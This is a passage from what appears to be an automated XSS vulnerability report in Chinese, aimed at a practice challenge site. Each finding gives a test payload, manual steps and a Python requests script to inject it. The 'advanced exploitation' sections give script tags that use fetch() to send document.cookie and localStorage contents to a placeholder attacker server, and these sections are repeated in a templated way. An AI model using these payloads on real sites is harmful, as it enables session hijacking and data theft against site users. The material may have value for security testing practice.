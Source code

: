 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```
